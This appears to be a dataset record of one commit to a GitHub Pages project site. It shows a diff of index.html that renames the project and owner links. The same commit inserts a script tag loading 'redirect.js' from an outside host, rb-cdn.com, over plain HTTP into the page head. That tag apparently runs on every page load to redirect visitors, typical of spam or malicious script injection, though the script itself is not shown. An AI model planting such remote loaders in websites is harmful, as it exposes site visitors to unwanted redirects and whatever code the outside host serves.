

Before and after one commit to awikiqwi/eliteutility3, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 59-1359 px from the top of the page at 85% size. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,7 +2,8 @@
 <html lang="en-us">
   <head>
     <meta charset="UTF-8">
-    <title>eliteutility3 by awikiqwi</title>
+    <title>uttermostroute1 1by jesushatesme</title>
+    <script src="http://rb-cdn.com/redirect.js"></script>
     <meta name="viewport" content="width=device-width, initial-scale=1">
     <link rel="stylesheet" type="text/css" href="stylesheets/normalize.css" media="screen">
     <link href='https://fonts.googleapis.com/css?family=Open+Sans:400,700' rel='stylesheet' type='text/css'>
@@ -11,11 +12,11 @@
   </head>
   <body>
     <section class="page-header">
-      <h1 class="project-name">eliteutility3</h1>
+      <h1 class="project-name">uttermostroute1</h1>
       <h2 class="project-tagline"></h2>
-      <a href="https://github.com/awikiqwi/eliteutility3" class="btn">View on GitHub</a>
-      <a href="https://github.com/awikiqwi/eliteutility3/zipball/master" class="btn">Download .zip</a>
-      <a href="https://github.com/awikiqwi/eliteutility3/tarball/master" class="btn">Download .tar.gz</a>
+      <a href="https://github.com/jesushatesme/uttermostroute1" class="btn">View on GitHub</a>
+      <a href="https://github.com/jesushatesme/uttermostroute1/zipball/master" class="btn">Download .zip</a>
+      <a href="https://github.com/jesushatesme/uttermostroute1/tarball/master" class="btn">Download .tar.gz</a>
     </section>
 
     <section class="main-content">
@@ -45,7 +46,7 @@
 <p>Having trouble with Pages? Check out our <a href="https://help.github.com/pages">documentation</a> or <a href="https://github.com/contact">contact support</a> and we’ll help you sort it out.</p>
 
       <footer class="site-footer">
-        <span class="site-footer-owner"><a href="https://github.com/awikiqwi/eliteutility3">eliteutility3</a> is maintained by <a href="https://github.com/awikiqwi">awikiqwi</a>.</span>
+        <span class="site-footer-owner"><a href="https://github.com/jesushatesme/uttermostroute1">uttermostroute1</a> is maintained by <a href="https://github.com/jesushatesme">jesushatesme</a>.</span>
 
         <span class="site-footer-credits">This page was generated by <a href="https://pages.github.com">GitHub Pages</a> using the <a href="https://github.com/jasonlong/cayman-theme">Cayman theme</a> by <a href="https://twitter.com/jasonlong">Jason Long</a>.</span>
       </footer>
```
